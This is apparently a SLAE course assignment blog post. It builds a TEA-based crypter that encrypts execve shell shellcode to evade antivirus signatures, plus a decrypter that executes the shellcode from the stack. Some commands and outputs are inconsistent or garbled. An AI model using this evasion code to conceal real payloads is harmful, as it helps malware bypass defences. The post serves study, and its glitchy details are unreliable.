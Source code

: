 ```yaml
---
layout: post
title:  "SLAE Assignment 7 - Custom crypter"
date:   2017-04-30
categories: certification
excerpt_separator: <!--more-->
---
```

<br />
Student **SLAE - 891**  
Github: [https://github.com/phackt/slae](https://github.com/phackt/slae)  
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  
  
### Assignment 7:  
    
**Our Goal:**  
> *Create a custom crypter*
 - *Free to use any existing encryption schema*
 - *Can use any programming language*  
<!--more-->
  
Hello everybody,  
  
In this last assignment we will aim at creating a shellcode crypter. The crypter program will cipher our shellcode in order to defeat any reverse-engineering analysis and to bypass fingerprint/signature based anti-virus detection.  
  
A quick search for a simple encryption algorithm leads to the [Tiny Encryption Algorithm](https://en.wikipedia.org/wiki/Tiny_Encryption_Algorithm):  
*'In cryptography, the Tiny Encryption Algorithm (TEA) is a block cipher notable for its simplicity of description and implementation, typically a few lines of code.'*  
  
![image]({{ site.url }}/public/images/slae/assignment7/image.png)  
  
If you want to read more about the Tiny Encryption Algorithm and its implementation and weaknesses nowadays, here is a [link](http://www.tayloredge.com/reference/Mathematics/TEA-XTEA.pdf).  

For this assignment we will use the [execve-stack.nasm](https://github.com/phackt/slae/tree/master/assignment7/execve-stack.nasm) shellcode:  
```
\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```
  
Now let's create our C crypter [tea_crypter.c](https://github.com/phackt/slae/tree/master/assignment7/tea_crypter.c):  
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void encode(long *data, long *key) {
	unsigned long y = data[0], z = data[1],
	sum = 0, delta = 0x9e3779b9, n = 32;
	while (n-- > 0) {
		sum += delta;
		y += (z << 4) + (key[0]^z) + (sum^(z >> 5)) + key[1];
		z += (y << 4) + (key[2]^y) + (sum^(y >> 5)) + key[3];
	}
	data[0] = y;
	data[1] = z;
}

void decode(long *data, long *key) {
	unsigned long n = 32, sum, y = data[0], z = data[1],
	delta=0x9e3779b9;
	sum = delta << 5;
	while (n-- > 0) {
	     	z -= (y << 4) + (key[2]^y) + (sum^(y >> 5)) + key[3]; 
	     	y -= (z << 4) + (key[0]^z) + (sum^(z >> 5)) + key[1];
	     	sum -= delta;  
	}
	data[0] = y; 
	data[1] = z;  
}

/* Character Array Functions */
void codestr(char *datastr, char *keystr) {
	int i = 0, datasize;
	long *data = (long *)datastr;
	long *key = (long *)keystr;
	datasize = strlen(datastr) / sizeof(long);
	datasize = 0 ? 1 : datasize;
	while (i < datasize) {
		encode(data, key);
		i += 2;
		data = (long *)datastr + i;
	}
}

void decodestr(char *datastr, char *keystr) {
	int i = 0, datasize;
	long *data = (long *)datastr;
	long *key = (long *)keystr;
	datasize = strlen(datastr) / sizeof(long);
	datasize = 0 ? 1 : datasize;
	while (i < datasize) {
		decode(data, key);
		i += 2;
		data = (long *)datastr + i;
	}
}

int main() {
	char shellcode[] = \
	"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"; //execve-stack
	
	int last;
	char *str, buff[512];
	char key[16] = "iloveshellcodess";
	
	str = shellcode;

	codestr(str, key);

	printf("\Ciphered shellcode size: %d\n", strlen(str));
	printf("\Ciphered shellcode:\n");

	int j;
	for (j=0;j<strlen(str);j++)
	{
		printf("\\x%02x", (unsigned char)(int)str[j]);
	}
	
	return 0;
}
```
  
Let's compile and run our TEA crypter:  
```bash
# gcc -fno-stack-protector -z execstack -o tea_crypter tea_crypter.c && chmod u+x ./tea_crypter && ./tea_crypter
Ciphered shellcode size: 25
Ciphered shellcode:
\x75\xac\xf4\x4c\x4f\x97\x9a\x0a\x92\xb5\x29\x5f\x9e\xa3\xa0\x53\xa7\xa9\xcd\x3c\x6f\x85\xee\x95\x80
```  
  
Now let's decrypt and execute this shellcode ([tea_decrypter.c](https://github.com/phackt/slae/tree/master/assignment7/tea_decrypter.c)):  
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void decode(long *data, long *key) {
	unsigned long n = 32, sum, y = data[0], z = data[1],
	delta=0x9e3779b9;
	sum = delta << 5;
	while (n-- > 0) {
	     	z -= (y << 4) + (key[2]^y) + (sum^(y >> 5)) + key[3]; 
	     	y -= (z << 4) + (key[0]^z) + (sum^(z >> 5)) + key[1];
	     	sum -= delta;  
	}
	data[0] = y; 
	data[1] = z;  
}

/* Character Array Functions */
void decodestr(char *datastr, char *keystr) {
	int i = 0, datasize;
	long *data = (long *)datastr;
	long *key = (long *)keystr;
	datasize = strlen(datastr) / sizeof(long);
	datasize = 0 ? 1 : datasize;
	while (i < datasize) {
		decode(data, key);
		i += 2;
		data = (long *)datastr + i;
	}
}

int main() {
	char shellcode[] = \
	"\x75\xac\xf4\x4c\x4f\x97\x9a\x0a\x92\xb5\x29\x5f\x9e\xa3\xa0\x53\xa7\xa9\xcd\x3c\x6f\x85\xee\x95\x80";	

	char buffer[512];
	char key[16] = "iloveshellcodess";
	
	strcpy(buffer, shellcode);
	decodestr(buffer, key);
	
	printf("Decrypted shellcode:\n");
	for (int i=0;i<strlen(shellcode);i++)
	{
		printf("\\x%02x", (unsigned char)(int)shellcode[i]);
	}

	// we are executing the shellcode once it has been decrypted
	printf("\nRunning shellcode...\n");
	int (*ret)() = (int(*)())buffer;
	ret();
	
	return 0;
}
```
  
Then:  
```bash
# gcc -fno-stack-protector -z execstack -o tea_crypter tea_crypter.c && chmod u+x ./tegcc -fno-stack-protector -z execstack -o tea_decrypter tea_decrypter.c && chmod u+x ./tea_decrypter && ./tea_decrypter
Decrypted shellcode:
\x75\xac\xf4\x4c\x4f\x97\x9a\x0a\x92\xb5\x29\x5f\x9e\xa3\xa0\x53\xa7\xa9\xcd\x3c\x6f\x85\xee\x95\x80
Running shellcode...
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```
  
Perfect, so our shellcode has been well decrypted and executed. Remember that TEA has some weaknesses, you may use another algorithm if you need strong encryption (AES, RSA, Blowfish, Twofish, ...).  Also avoid simple XOR encryption because the xoring key can be guessed thanks to a tool like [xortool](https://github.com/hellman/xortool).  
  
So it was our last assignment for the exam of the  [http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  course.  
Thanks again to Vivek and its team for their work.  
  
Hope to see you soon,
  
[Phackt](https://twitter.com/phackt_ul)
